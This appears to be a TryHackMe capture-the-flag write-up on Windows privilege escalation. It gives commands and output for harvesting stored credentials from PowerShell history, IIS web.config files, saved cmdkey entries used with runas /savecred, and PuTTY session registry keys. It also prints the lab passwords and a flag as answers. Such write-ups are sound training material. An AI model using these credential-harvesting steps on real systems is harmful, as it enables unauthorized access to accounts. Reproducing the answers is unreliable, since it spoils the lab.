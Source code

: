 #### A password for the julia.jones user has been left on the Powershell history. What is the password?

PS type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z


#### A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

                <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
                    <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
    <connectionStrings>
        <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
    </connectionStrings>

    

#### There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

PS C:\Users\thm-unpriv> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz

    PS C:\Users\thm-unpriv> runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
PS C:\Users\thm-unpriv> whoami
wprivesc1\thm-unpriv
PS C:\Users\thm-unpriv>


C:\Windows\system32>whoami
wprivesc1\mike.katz


THM{WHAT_IS_MY_PASSWORD}


#### Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?


PS C:\Users\thm-unpriv> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1
